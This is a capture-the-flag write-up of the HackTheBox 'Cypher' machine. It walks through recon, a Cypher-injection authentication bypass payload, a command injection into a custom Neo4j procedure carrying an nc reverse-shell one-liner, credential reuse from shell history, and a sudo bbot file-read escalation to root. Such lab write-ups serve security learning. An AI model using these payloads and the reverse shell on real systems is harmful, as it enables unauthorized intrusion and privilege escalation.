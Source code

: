 ```yaml
---
title: Cypher
published: 2025-03-02
description: "Cypher is a medium-difficulty box that demonstrates Cypher injection, JAR file reversing, and privilege escalation through bbot."
image: /banner/Cypher.png
tags: [Linux, Medium, Cypher Injection, Neo4j, bbot]
category: "HackTheBox"
draft: false
lang: "en"
---
```


# Description

Cypher is a medium-difficulty box that demonstrates Cypher injection, JAR file reversing, and privilege escalation through bbot.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sat Mar  1 19:30:40 2025 as: nmap -vvv -F -4 -sSCV -oN fast_tcp-_scan.txt 10.10.11.57
Nmap scan report for cypher.htb (10.10.11.57)
Host is up, received echo-reply ttl 63 (0.032s latency).
Scanned at 2025-03-01 19:30:40 GMT for 8s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMurODrr5ER4wj9mB2tWhXcLIcrm4Bo1lIEufLYIEBVY4h4ZROFj2+WFnXlGNqLG6ZB+DWQHRgG/6wg71wcElxA=
|   256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqadcsjXAxI3uSmNBA8HUMR3L4lTaePj3o6vhgPuPTi
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are only two open ports, `22` and `80`. I will check the HTTP response `Location` header, which indicates a redirect. Sometimes, it reveals the domain.

```bash
$ curl -sI http://10.10.11.57/ | rg 'Location'
Location: http://cypher.htb
```

It redirects to the `cypher.htb` domain. Add the domain to the `/etc/hosts` file

```bash
10.10.11.57 cypher.htb
```

# 80 - TCP

## Enumeration

I'll just fuzz the web application to see if we can find any hidden endpoints.

```bash
$ feroxbuster -n --no-state -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://cypher.htb/
...
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      162l      360w     4562c http://cypher.htb/index
200      GET      179l      477w     4986c http://cypher.htb/about
200      GET      126l      274w     3671c http://cypher.htb/login
200      GET       63l      139w     1548c http://cypher.htb/utils.js
307      GET        0l        0w        0c http://cypher.htb/demo => http://cypher.htb/login
200      GET        3l      113w     8123c http://cypher.htb/bootstrap-notify.min.js
405      GET        1l        3w       31c http://cypher.htb/api/auth
307      GET        0l        0w        0c http://cypher.htb/api/ => http://cypher.htb/api/api
307      GET        0l        0w        0c http://cypher.htb/api => http://cypher.htb/api/docs
200      GET        7l     1223w    80496c http://cypher.htb/bootstrap.bundle.min.js
200      GET        2l     1293w    89664c http://cypher.htb/jquery-3.6.1.min.js
200      GET      876l     4886w   373109c http://cypher.htb/logo.png
200      GET     7333l    24018w   208204c http://cypher.htb/vivagraph.min.js
200      GET      162l      360w     4562c http://cypher.htb/
200      GET       12l     2173w   195855c http://cypher.htb/bootstrap.min.css
301      GET        7l       12w      178c http://cypher.htb/testing => http://cypher.htb/testing/
404      GET        1l        2w       22c http://cypher.htb/demos
200      GET     5632l    33572w  2776750c http://cypher.htb/us.png
...
```

The web fuzzer reveals an interesting `/testing/` endpoint, which contains the file `custom-apoc-extension-1.0-SNAPSHOT.jar`.

<p align="center">
  <img src="/machines/cypher/testing.png" alt="JAR File" />
</p>

## JAR File

Then, use `jadx-gui` to decompile the bytecode.

<p align="center">
  <img src="/machines/cypher/command_injection.png" alt="Command Injection" />
</p>

I found a command injection vulnerability in `CustomFunctions`, but we haven't identified a way to reach that code yet. Therefore, let's continue analyzing the web application.<br>
Next, explore the web application, noting that you'll need to log in. I recommend using Burpsuite while exploring the web application. Since it's a login page, it's worthwhile to try injecting a single quote (`'`) to see if it breaks the query.

## Cypher Injection

<p align="center">
  <img src="/machines/cypher/login_error.png" alt="Login Error" />
</p>

The application throws an error, indicating a potential vulnerability to Cypher injection, since the query syntax is Cypher. The injection only works on `username` parameter and it's returning `h.value as hash` at the end of the query. <br>
The `h` is comes from `h:SHA1` so it should be a SHA1 hash. We can bypass the authentication by making the username query true and return arbitrary SHA1 hash that matched plaintext in the `password` parameter.

Payload :

```json
{
  "username": "' OR 1=1 RETURN 'a94a8fe5ccb19ba61c4c0873d391e987982fbbd3' as hash//",
  "password": "test"
}
```

Accessing the `/demo` endpoint reveals that we can now execute arbitrary Cypher queries.

<p align="center">
  <img src="/machines/cypher/web_query.png" alt="Main website" />
</p>

After a while, I found that the database contained no useful information. We can list all the procedures using `SHOW PROCEDURES` to see if there are any interesting ones.

<p align="center">
  <img src="/machines/cypher/procedures.png" alt="Procedures" />
</p>

## Command Injection

And we can see two custom procedures, that's comes from the JAR file we found earlier. Let's just call the `custom.getUrlStatusCode` procedure and use `;` to inject a command.

```cypher
CALL custom.getUrlStatusCode("nuhuh;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.116 9001 >/tmp/f")
```

# Shell as neo4j

## Enumeration

If you run the `history` command, you'll see a command containing a password. This password might be worth trying for other users on this machine which is the `graphasm` user.

```bash
neo4j@cypher:~$ history
history
    1  neo4j-admin dbms set-initial-password <password>
```

Just SSH into the machine as `graphasm` user.

# Shell as graphasm

## User flag

```bash
graphasm@cypher:~$ cat user.txt
deadbeef4aa252b7921aebf9fee9fake
```

## Sudo access

The current user can execute `/usr/local/bin/bbot` with `ALL` access.

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

By looking at the help command, we can read a file using the `-d` and `-cf` flag. You can add `--dry-run` flag so that we don't need an actual target.

## Root flag

```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc
...
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: deadbeef391d500f1073fab93010fake
...
```
